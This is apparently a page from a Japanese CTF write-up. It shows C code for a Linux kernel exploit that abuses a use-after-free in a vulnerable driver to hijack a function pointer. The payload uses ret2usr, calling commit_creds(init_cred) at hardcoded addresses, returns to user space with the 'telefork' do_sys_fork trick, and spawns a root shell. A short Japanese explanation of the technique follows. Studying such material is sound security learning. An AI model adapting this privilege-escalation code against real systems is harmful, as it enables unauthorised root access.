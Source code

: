 ```c
#define COMMIT_CRED 0xffffffff812a1050
#define INIT_CRED 0xffffffff81e3bfa0
#define DO_SYS_FORK 0xffffffff81272ce0
#define MSLEEP 0xffffffff812fd7d0

  typedef void (*commit_creds_t)(void *);
  commit_creds_t commit_creds = (commit_creds_t)COMMIT_CRED;
  commit_creds((void *)INIT_CRED);

  typedef void (*do_sys_fork_t)(void);
  typedef void (*msleep_t)(unsigned long);

  do_sys_fork_t do_sys_fork = (do_sys_fork_t)DO_SYS_FORK;
  msleep_t msleep = (msleep_t)MSLEEP;

  do_sys_fork();
  msleep(0x100000);
}

int main() {
  fprintf(stderr, "Starting exploit...\n");

  open_vuln();
  obj_alloc();
  obj_write("Hello, world!", 13);
  obj_free();

  int fd = open("/proc/self/stat", O_RDONLY);

  void *exploit_ptr = (void *)exploit;
  obj_write((char *)&exploit_ptr, 8);

  char buf[0x100];
  read(fd, buf, sizeof(buf)); // trigger `start`

  if (getuid() == 0) {
    printf("you got real world! have a fun~\n");
    system("id");
    system("/bin/sh");
  }
}

```

ret2usrに使っているのはteleforkと呼ばれる手法で、システムコールをハンドルしている時に`do_sys_fork`を呼び出すことで`fork`が呼び出されたことにしてしまい、これによってユーザ空間に戻る処理を横着することができます。片割れはカーネルに居座ってしまうので`msleep`で黙らせるのを忘れずに。
